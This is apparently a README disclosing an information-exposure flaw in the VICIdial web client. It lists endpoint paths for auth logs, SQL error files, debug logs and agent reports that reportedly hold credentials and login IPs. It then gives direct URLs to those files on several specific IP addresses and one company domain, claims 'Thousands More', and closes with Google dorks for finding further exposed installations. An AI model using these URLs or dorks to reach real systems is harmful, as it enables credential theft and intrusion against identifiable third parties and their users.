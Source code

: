 # VICIdial - CVE
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems.

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

/vicidial/project_auth_entries.txt

/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT

/vicidial/agent_reports/

/vicidial/closer_SQL_updates.txt

/agc/vicidial_mysqli_errors.txt

/agc/vicidial_debug.txt

/agc/vicidial_auth_entries.txt

## Example URL's:

http://172.104.24.101/vicidial/project_auth_entries.txt
http://172.104.24.101/vicidial/agent_reports/
http://172.104.24.101/agc/vicidial_mysqli_errors.txt
http://172.104.24.101/agc/vicidial_debug.txt
http://172.104.24.101/agc/vicidial_auth_entries.txt

http://35.156.102.118/vicidial/project_auth_entries.txt
http://35.156.102.118/vicidial/agent_reports/
http://35.156.102.118/vicidial/closer_SQL_updates.txt
http://35.156.102.118/agc/vicidial_mysqli_errors.txt
http://35.156.102.118/agc/vicidial_debug.txt
http://35.156.102.118/agc/vicidial_auth_entries.txt

https://callsrevenue.com/vicidial/project_auth_entries.txt
https://callsrevenue.com/agc/vicidial_mysqli_errors.txt
https://callsrevenue.com/agc/vicidial_debug.txt
https://callsrevenue.com/agc/vicidial_auth_entries.txt

http://69.60.110.115/vicidial/agent_reports/
http://69.60.110.115/vicidial/closer_SQL_updates.txt
http://69.60.110.115/agc/vicidial_mysqli_errors.txt
http://69.60.110.115/agc/vicidial_debug.txt

+ Thousands More! :)

## Google Dorks to help find more!

"Agent web client:  Phone Login"

"Index of /vicidial"

inurl:/vicidial/welcome.php

intitle:Agent Timeclock



